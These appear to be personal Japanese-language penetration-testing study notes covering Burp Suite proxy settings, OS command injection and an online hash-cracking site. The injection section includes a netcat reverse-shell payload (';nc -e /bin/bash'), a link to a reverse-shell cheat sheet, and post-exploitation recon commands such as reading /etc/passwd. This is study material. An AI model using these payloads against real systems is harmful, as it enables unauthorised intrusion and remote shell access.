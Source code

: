 ## Burp Suite

### Proxyタブ

- Options
  - Intercept Client Responses
    - And: URL: Is in target scope: scopeに追加されたURLをプロキシがインターセプトしないようにする
  - Intercept Server Responses
    - Intercept responses based on the following rules: ON
      - 以下をON
      - Or: Request: Was intercepted
      - And: URL: Is in target scope
  - Match and Replace: 正規表現で絞り込む

### Burpテクニック

- `Ctrl+U`: Intercept中に範囲選択した文字をURLエンコードする

## OWASP

- Open Web Application Security Project
  - セキュリティを向上させることを専門とした非営利団体

### OSコマンドインジェクション

- [チートシート](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```bash
;nc -e /bin/bash
```

#### 試したいコマンド

- Linux
  - whoami
  - id
  - ifconfig/ip addr
  - uname -a
  - ps -ef
  - その他コマンド
    - cat /etc/passwd: ユーザリスト
- Windows
  - whoami
  - ver
  - ipconfig
  - tasklist
  - netstat -an

### ハッシュクラック

- オンラインツール
  - <https://crackstation.net/>

